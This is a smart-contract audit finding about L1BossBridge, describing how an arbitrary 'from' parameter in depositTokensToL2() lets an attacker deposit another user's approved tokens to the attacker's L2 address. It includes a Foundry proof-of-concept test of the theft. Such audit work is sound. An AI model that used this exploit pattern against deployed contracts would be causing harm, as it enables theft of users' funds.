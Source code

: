 

## H-04.Attacker can steal funds of any token approved to L1BossBridge

### Summary

Attacker can exploit the ` depositTokensToL2() ` function by crafting malicious parameters to deposit other user's tokens to L2 and then withdraw them for themselves.



### Vulnerability Details

The vulnerability is located in the ` depositTokensToL2() ` function of the ` L1BossBridge.sol ` file.

```solidity
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
    ...
    token.safeTransferFrom(from, address(vault), amount);

    emit Deposit(from, l2Recipient, amount);
}
```

Users need to fill in the ` from `, ` l2Recipient `, ` amount ` parameters to call the function. The transfer is executed via ` token.safeTransferFrom `, and the ` to ` parameter is a fixed address(Vault). Upon sucessful transfer, the ` Deposit ` event is emitted, and tokens are minted for the ` l2Recipient ` on L2.

If an attacker knows that a user has just approved some tokens to ` L1BossBridge `, they can craft the parameters as ` depositTokensToL2(userAddress, attackerL2Address, amount) `. This way, the user's funds will be deposited into the attacker's L2 address. The attacker can then use the ` withdrawTokensToL1() ` function to retrieve the tokens back to L1.



### Proof of Concept

#### Test Case

```solidity
function testStealOtherUserFunds() public {
    // user approve 10 ether tokens
    vm.prank(user);
    token.approve(address(tokenBridge), 1000 ether);

    // attacker use the tokens
    address attacker = makeAddr("attacker");
    address attackerInL2 = makeAddr("attackerInL2");
    vm.startPrank(attacker);
    tokenBridge.depositTokensToL2(user, attackerInL2, 1000 ether);
    vm.stopPrank();

    assertEq(token.balanceOf(user), 0 ether);
    assertEq(token.balanceOf(address(vault)), 1000 ether);
}
```
